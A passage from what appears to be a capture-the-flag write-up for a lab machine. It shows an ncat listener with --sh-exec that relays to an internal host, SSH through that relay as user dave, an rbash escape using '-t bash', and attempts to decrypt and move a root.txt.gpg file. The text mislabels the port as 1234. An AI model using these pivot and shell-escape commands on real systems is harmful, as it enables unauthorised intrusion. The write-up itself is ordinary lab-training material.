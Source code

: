 
In summary, this command sets up a listening server on port 1234. When a connection is made to this port, it executes another ncat command to connect to the IP address 192.168.5.2 on port 987, effectively creating a reverse shell.

  

I first started ncat listener in the background:

  

`/usr/bin/ncat -l 1337 --sh-exec "ncat 192.168.5.2 987 -p 53" &`

![](https://i.imgur.com/EAtWq9r.png)

With the listner running, I made ssh connection to the listener:

  

`ssh dave@localhost -p 1337`

![](https://i.imgur.com/wu87s1z.png)

Now I have SSH connection to **dave@vault**!

### rbash escape

I tried moving to different directories and it was restricted due to **rbash**:

  

![](https://i.imgur.com/400JPZK.png)

I can easily bypass this by appending `-t bash` at the end of the command as such:

`ssh dave@localhost -p 1337 -t bash`

![](https://i.imgur.com/EMIi2iq.png)

## root.txt.gpg decrypt

Looking around the file system, I found **root.txt.gpg** which seemed like an end goal for this box:

![](https://i.imgur.com/jBnpVzZ.png)

I first tried decrypting on **dave@vault** but secret key wasn't available on this system:

  

`gpg -d root.txt.gpg`

![](https://i.imgur.com/JPqQUB3.png)

In order to transfer file to different systems, I tried base64 but sadly it wasn't installed on dave@vault:

  

`base64 root.txt.gpg`
